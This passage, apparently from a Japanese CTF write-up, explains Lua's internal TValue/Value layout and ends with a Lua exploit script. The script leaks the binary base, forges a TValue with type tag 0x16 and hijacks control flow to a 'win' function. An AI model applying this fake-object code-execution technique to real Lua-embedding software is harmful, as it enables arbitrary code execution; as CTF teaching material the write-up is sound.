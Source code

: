 さらに TValue は

lobject.h:65

```c
#define TValuefields	Value value_; lu_byte tt_

typedef struct TValue {
  TValuefields;
} TValue;
```

そして

```c
/*
** Union of all Lua values
*/
typedef union Value {
  struct GCObject *gc;    /* collectable objects */
  void *p;         /* light userdata */
  lua_CFunction f; /* light C functions */
  lua_Integer i;   /* integer numbers */
  lua_Number n;    /* float numbers */
  /* not used, but may avoid warnings for uninitialized value */
  lu_byte ub;
} Value;
```

どうやら、TValue の `tt_` がオブジェクトのタイプで、それに応じて内部の union を使い分けている様です。
テーブルに C の関数(table.pack とか)を入れてみた感じ、22(0x16)を入れておくと lua_CFunction f が呼ばれます。

コピー元 array の範囲外には大量のゴミがあり、それらがどこから来たのか追う気力がなかったためどうしようか悩んでいたのですが、テーブル内にあるデータが残っている様な振る舞いを見せたので、win を呼ぶ偽の TValue を文字列として大量に保存(string.rep)し、GDB を見ながら無事に呼べそうなオフセットを探したところ、見つかりました。

最終的なコードは以下になります。

```lua
pack_address = tonumber(string.sub(tostring(table.pack), 13), 16)

print(string.format("%x", pack_address))
binary_base = pack_address - 0x0000000000027220

win = binary_base + 0x0000000000007a40
print("found win:" .. string.format("%x", win))

function int_to_array(v)
  ret = {}
  for i = 0, 7 do
    table.insert(ret, v & 0xff)
    v = v >> 8
  end

  return ret
end

function utf8_from(t)
  local bytearr = {}
  for _, v in ipairs(t) do
    local utf8byte = v
    table.insert(bytearr, string.char(utf8byte))
  end
  return table.concat(bytearr)
end

st = utf8_from(int_to_array(win))
st = st .. '\x16\x16\x16\x16\x16\x16\x16\x16'
print(string.len(st))
```
